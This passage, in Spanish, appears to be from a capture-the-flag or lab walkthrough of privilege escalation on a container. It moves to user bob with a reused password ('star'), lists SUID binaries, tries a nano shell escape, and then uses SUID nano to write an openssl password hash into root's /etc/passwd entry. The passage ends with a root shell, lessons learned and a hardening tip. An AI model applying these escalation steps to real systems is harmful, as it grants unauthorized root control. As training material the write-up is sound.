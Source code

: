 ###### Usuario `[ www-date ]`:
Para este usuario probamos que se esta reciclando contrasenas asi que logramos migrar a **bob**
```bash
# Comando para escalar al usuario: ( bob )
su bob # ( star )
```
###### Usuario `[ bob ]`:
Listando binarios **SUID** tenemos los siguientes:
```bash
find / -perm -4000 2>/dev/null
```

Tenemos el binario **nano** con privilegios lo que nos permitiria migrar a **root** de la siguiente manera:
```
nano

ctrl + R
ctrl + X
reset; sh 1>&0 2>&0
```

Pero no funciono asi que tenemos que ver porque ver otra forma de migrar a **root** que es la siguiente:
En nuestra maquina de atacante crearemos una contrasena que es la que depues incrustaremos en el archivo: **( /etc/passwd )** para loguearnos depues con esa:
```bash
openssl passwd 12345

$1$qIkFPKSq$z4sfuoU.f9N05D7vc5u560 # Password que inyectaremos en el archivo
```

Ahora nos aprovecharemos que el binario de **nano** es **SUID** para editar el archivo **passwd** y en donde tiene la **X** de root la sustituimos por la contrasena que nosostros creamos
quedando asi el archivo:
```bash
root:$1$qIkFPKSq$z4sfuoU.f9N05D7vc5u560:0:0:root:/root:/bin/bash
```

Una ves guardado los cambios procedemos a loguearnos como root:
```bash
su root # ( 12345 )
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@bd4d2efa697a:~# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a enumear el servicio **SMB**
2. Aprendimos a realizar fuerza bruta para este servicio
3. Aprendimos a explotar el binario del editor **nano** para poder ganar acceso como **root**

## Recomendaciones de Seguridad
- Evitar el uso de permisos **SUID** en binarios criticos del sistema.